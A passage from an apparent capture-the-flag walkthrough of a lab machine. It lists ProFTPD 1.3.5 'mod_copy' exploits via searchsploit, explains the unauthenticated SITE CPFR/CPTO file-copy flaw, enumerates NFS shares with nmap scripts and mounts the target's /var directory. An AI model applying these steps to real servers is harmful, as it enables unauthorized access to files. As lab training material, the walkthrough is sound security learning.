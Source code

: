 ### ProFTPD 1.3.5 Exploit

Based on the log file and the initial scan from nmap, we know a **ProFTDP** server running `version 1.3.5` is available on port 21. Searching for exploits for this particular version with searchsploit gives us the following results.

```bash
$ searchsploit proFtpd 1.3.5       
--------------------------------------------------------- ------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)| linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution      | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)  | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                | linux/remote/36742.txt
--------------------------------------------------------- -------------
Shellcodes: No Results
```

There seems to be a `mod_copy` module related exploit where any unauthenticated user can copy files from any part of the system to a chosen destination ([more info](https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/)). This is done by using the `SITE CPFR` and `SITE CPTO` command.

### rpcbind

However, we should now find a way to access a directory on the server based on the set of available ports before copying information using the ProFTPD vulnerability. From the nmap scan, under port 111 we noticed that rcpbind is running with access to `nfs`. We can use nmap scripts to enumerate this and find if there are any mounts.

```bash
$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.166.119 -oN nmap/rpcbind
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-17 20:07 AEST
Nmap scan report for 10.10.166.119
Host is up (0.30s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *

Nmap done: 1 IP address (1 host up) scanned in 4.66 seconds
```

From the nmap result we see that `/var` is mount is available. We can go forward and mount `/var/tmp` to our machine.

```bash
$ sudo mkdir /mnt/kenobiNFS
$ sudo mount 10.10.166.119:/var /mnt/kenobiNFS
$ ls -la /mnt/kenobiNFS
total 56
drwxr-xr-x 14 root root  4096 Sep  4  2019 .
drwxr-xr-x  3 root root  4096 Apr 17 20:09 ..
drwxr-xr-x  2 root root  4096 Sep  4  2019 backups
drwxr-xr-x  9 root root  4096 Sep  4  2019 cache
drwxrwxrwt  2 root root  4096 Sep  4  2019 crash
drwxr-xr-x 40 root root  4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff 4096 Apr 13  2016 local
lrwxrwxrwx  1 root root     9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root _ssh  4096 Sep  4  2019 log
drwxrwsr-x  2 root mail  4096 Feb 27  2019 mail
drwxr-xr-x  2 root root  4096 Feb 27  2019 opt
lrwxrwxrwx  1 root root     4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root  4096 Jan 30  2019 snap
drwxr-xr-x  5 root root  4096 Sep  4  2019 spool
```